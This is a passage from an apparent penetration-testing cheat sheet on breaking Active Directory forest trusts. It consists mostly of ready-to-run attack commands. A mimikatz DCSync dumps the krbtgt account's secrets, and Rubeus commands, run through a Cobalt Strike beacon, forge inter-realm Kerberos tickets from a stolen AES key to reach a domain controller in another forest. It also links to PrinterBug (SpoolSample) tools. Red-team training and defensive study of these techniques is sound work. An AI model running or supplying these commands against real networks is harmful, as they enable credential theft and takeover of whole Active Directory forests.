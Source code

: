 For DCSyncing we'll need only parent domain FQDN (`megacorp.local`):

```
PS > ([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest())[0].RootDomain.Name
megacorp.local
```

DCSync:

```
mimikatz # lsadump::dcsync /user:megacorp.local\krbtgt /domain:megacorp.local
```



### Request Inter-Realm TGT with Rubeus

Having just an RC4/AES keys of a user in target forest (that's a foreign user in target domain, but a native user in current domain), we can request Kerberos tickets manually with Rubeus.

Request TGT for that user in current domain:

```
beacon> execute-assembly Rubeus.exe asktgt /user:snovvcrash /domain:megacorp.local /aes256:94b4d075fd15ba856b4b7f6a13f76133f5f5ffc280685518cad6f732302ce9ac /opsec /nowrap
```

Request inter-realm TGT from current domain to the target domain:

```
beacon> execute-assembly Rubeus.exe asktgs /service:krbtgt/megacorp.external /domain:megacorp.local /dc:DC1.megacorp.local /ticket:<BASE64_TICKET> /nowrap
```

Use inter-realm TGT to request a TGS in the target domain:

```
beacon> execute-assembly Rubeus.exe asktgs /service:cifs/DC1.megacorp.external /domain:megacorp.external /dc:DC1.megacorp.external /ticket:<BASE64_TICKET> /nowrap
```




## UnD + PrinterBug

* [https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/](https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/)
* [https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
* [https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#breaking-forest-trusts](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#breaking-forest-trusts)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1)
* [https://github.com/BlackDiverX/WinTools/blob/master/SpoolSample-Printerbug/SpoolSample.exe](https://github.com/BlackDiverX/WinTools/blob/master/SpoolSample-Printerbug/SpoolSample.exe)

{% content-ref url="/pentest/infrastructure/ad/kerberos/delegation-abuse/kud.md" %}
[kud.md](kud.md)
{% endcontent-ref %}
